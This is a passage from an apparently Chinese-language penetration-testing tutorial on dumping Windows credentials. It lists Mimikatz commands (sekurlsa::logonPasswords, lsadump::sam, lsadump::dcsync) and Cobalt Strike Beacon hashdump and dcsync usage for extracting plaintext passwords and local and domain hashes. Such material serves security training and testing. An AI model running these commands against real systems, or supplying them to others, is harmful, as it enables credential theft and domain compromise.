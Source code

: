 如下图：

![](https://pic2.zhimg.com/v2-553a0a81a30193e9eac76d977b68b66d_r.jpg)

当然也可以用下面的命令获取全部用户的密钥和明文：

```
privilege::debug
sekurlsa::logonPasswords

```

如下图：

![](https://pic4.zhimg.com/v2-39be007d89ef4e79c72a7a2f7cf6c4cf_r.jpg)

读取 SAM 数据库获取用户 Hash, 获取系统所有本地用户的 hash：

```
privilege::debug
token::elevate
lsadump::sam

```

如下图：

![](https://pic1.zhimg.com/v2-7da5ed03dd0f8bc423008b8e835f0cd0_r.jpg)

也可以使用`dcsync`功能导出域内的所有 hash：

```
lsadump::dcsync /domain:test.local /all /csv

```

### Cobalt Strike

这块没有测试的环境就不再展开，相信熟悉 cs 的小伙伴也知道这个功能, 具体功能在：

`选中客户端列表->右键选择Access的模块中的Dump Hashes`

读取到的凭证可以在菜单栏的`view-Credentials`中查看。

*   导出域内的所有 hash 可以使用 Beacon 的 hashdump。  
    
*   导出域内的所有 hash 可以使用 Beacon 的 dcsync  
    

```
查询域内所有hash
dcsync [DOMAIN.FQDN]
查询指定用户hash
dcsync [DOMAIN.FQDN] [DOMAIN\user]

```

### Invoke-Mimikatz.ps1
